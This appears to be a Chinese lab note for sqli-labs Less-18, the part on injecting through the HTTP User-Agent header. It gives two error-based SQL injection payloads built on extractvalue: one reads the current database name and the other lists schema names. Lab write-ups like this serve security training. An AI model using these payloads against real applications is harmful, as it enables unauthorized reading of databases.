 ### 注入流程-Less-18

==**要想成功复现，必须先成功登录**==

#### 获取当前数据库名

```
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36' and extractvalue(0x7e, concat(0x7e, (select database()))), '2', 3)#
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230606225942197.png" alt="image-20230606225942197" style="zoom:50%;" />

#### 爆库

```
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36' and extractvalue(0x7e, concat(0x7e, (select schema_name from information_schema.schemata limit 1,1))), '2', 3)#
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230606230248421.png" alt="image-20230606230248421" style="zoom:50%;" />
